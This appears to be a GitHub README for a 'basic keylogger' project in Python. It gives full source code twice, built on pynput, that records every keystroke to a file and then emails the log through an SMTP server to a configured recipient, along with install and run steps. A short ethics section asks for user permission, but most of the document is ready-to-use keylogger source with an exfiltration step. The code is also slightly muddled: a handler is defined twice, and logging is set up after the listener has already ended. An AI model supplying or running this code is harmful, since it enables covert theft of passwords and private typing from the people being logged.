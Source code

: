# Python-Keylogger-Project
Developed a basic keylogger in Python using the pynput library to capture and log keystrokes.
# Keylogger Project

## Purpose
This project is a demonstration of how to create a basic keylogger in Python using the `pynput` library. The keylogger captures and logs keystrokes to a file.



```markdown
# Keylogger Project

## Overview
This project demonstrates how to create a basic keylogger in Python using the `pynput` library. The keylogger captures and logs keystrokes to a file and can optionally send the log file via email.

## Features
- Logs alphanumeric and special keys
- Saves logs to a text file
- Optionally sends logs via email
- Includes setup instructions and usage guidelines
- Emphasizes ethical considerations

## Setup Instructions

### Prerequisites
- Python 3.x installed on your system. You can download it from [python.org](https://www.python.org/).

### Step-by-Step Guide

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/yourusername/python-keylogger.git
   cd python-keylogger
   ```

2. **Install Required Libraries**:
   Open a terminal and run the following command to install the required libraries:
   ```bash
   pip install pynput
   ```

3. **Keylogger Script**:
   Ensure your `keylogger.py` file contains the following code:

   ```python
   from pynput import keyboard
   import datetime
   import logging
   import smtplib
   from email.mime.multipart import MIMEMultipart
   from email.mime.text import MIMEText

   log_file = "key_log.txt"

   def on_press(key):
       try:
           with open(log_file, "a") as log:
               log.write(f"{datetime.datetime.now()} - {key.char}\n")
       except AttributeError:
           with open(log_file, "a") as log:
               log.write(f"{datetime.datetime.now()} - {key}\n")

   def on_release(key):
       if key == keyboard.Key.esc:
           return False

   with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
       listener.join()

   logging.basicConfig(filename=log_file, level=logging.DEBUG, format='%(asctime)s: %(message)s')

   def on_press(key):
       try:
           logging.info(f"Key {key.char} pressed")
       except AttributeError:
           logging.info(f"Special Key {key} pressed")

   def send_email(log_content):
       from_addr = "your_email@example.com"
       to_addr = "destination_email@example.com"
       msg = MIMEMultipart()
       msg['From'] = from_addr
       msg['To'] = to_addr
       msg['Subject'] = "Keylogger Log"

       body = MIMEText(log_content, 'plain')
       msg.attach(body)

       server = smtplib.SMTP('smtp.example.com', 587)
       server.starttls()
       server.login(from_addr, "your_password")
       server.send_message(msg)
       server.quit()

   # Call send_email with the content of log file
   with open(log_file, "r") as file:
       send_email(file.read())
   ```

4. **Configure Email Settings**:
   - Replace `your_email@example.com` with your email address.
   - Replace `destination_email@example.com` with the recipient's email address.
   - Replace `smtp.example.com` with your email provider's SMTP server.
   - Replace `your_password` with your email account password.

5. **Run the Script**:
   Execute the script by running:
   ```bash
   python keylogger.py
   ```

6. **Test the Keylogger**:
   - Open any application and start typing.
   - Check the `key_log.txt` file in the same directory to see the logged keystrokes.
   - Press the `Esc` key to stop the keylogger and send the log via email.

## Usage Guidelines
1. **Run the Script**:
   - Open a terminal.
   - Navigate to the directory where `keylogger.py` is located.
   - Run the script with:
     ```bash
     python keylogger.py
     ```

2. **Stop the Keylogger**: Press the `Esc` key to stop the keylogger and send the log via email.

3. **View Logs**: The keystrokes are logged in the `key_log.txt` file in the same directory as the script.

## Ethical Considerations
- **Legal Usage**: Ensure that you have explicit permission from the user to log their keystrokes. Unauthorized use of a keylogger is illegal and unethical.
- **Privacy**: Respect the privacy of individuals. Use this tool responsibly and only for educational or authorized purposes.
- **Security**: Be aware of the potential security implications of running a keylogger. Ensure it is used in a controlled environment to prevent misuse.

## Example Code
```python
from pynput import keyboard
import datetime
import logging
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText

log_file = "key_log.txt"

def on_press(key):
    try:
        with open(log_file, "a") as log:
            log.write(f"{datetime.datetime.now()} - {key.char}\n")
    except AttributeError:
        with open(log_file, "a") as log:
            log.write(f"{datetime.datetime.now()} - {key}\n")

def on_release(key):
    if key == keyboard.Key.esc:
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

logging.basicConfig(filename=log_file, level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    try:
        logging.info(f"Key {key.char} pressed")
    except AttributeError:
        logging.info(f"Special Key {key} pressed")

def send_email(log_content):
    from_addr = "your_email@example.com"
    to_addr = "destination_email@example.com"
    msg = MIMEMultipart()
    msg['From'] = from_addr
    msg['To'] = to_addr
    msg['Subject'] = "Keylogger Log"

    body = MIMEText(log_content, 'plain')
    msg.attach(body)

    server = smtplib.SMTP('smtp.example.com', 587)
    server.starttls()
    server.login(from_addr, "your_password")
    server.send_message(msg)
    server.quit()

# Call send_email with the content of log file
with open(log_file, "r") as file:
    send_email(file.read())
```

## Contributing
Feel free to fork this repository and contribute by submitting pull requests.

## License
This project is licensed under the MIT License.
```


